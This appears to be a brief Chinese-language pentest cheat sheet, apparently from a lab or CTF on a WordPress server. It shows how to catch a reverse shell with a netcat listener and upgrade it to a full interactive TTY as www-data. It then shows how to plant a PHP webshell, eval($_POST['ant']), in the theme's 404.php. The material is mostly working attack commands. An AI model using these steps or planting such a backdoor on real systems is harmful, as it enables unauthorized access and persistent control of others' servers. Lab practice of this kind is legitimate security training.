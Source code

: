 ### 升级full tty

kali监听

```
nc -lvvp 4444
```

重新反弹



将反弹的shell放到后台

```
control + z
```



下一条指令

```
stty raw -echo
```



将后台的shell放到前台(直接输入fg)

```
fg
```



反弹shell中执行如下命令
```
www-data@wp:/var/www/html/wordpress$ export SHELL=/bin/bash
www-data@wp:/var/www/html/wordpress$ export TERM=screen
www-data@wp:/var/www/html/wordpress$ stty rows 38 columns 116
www-data@wp:/var/www/html/wordpress$ reset
```



### 获取webshell



`vi wp-content/themes/twentytwentyone/404.php`

插入

```
eval($_POST['ant']);
```


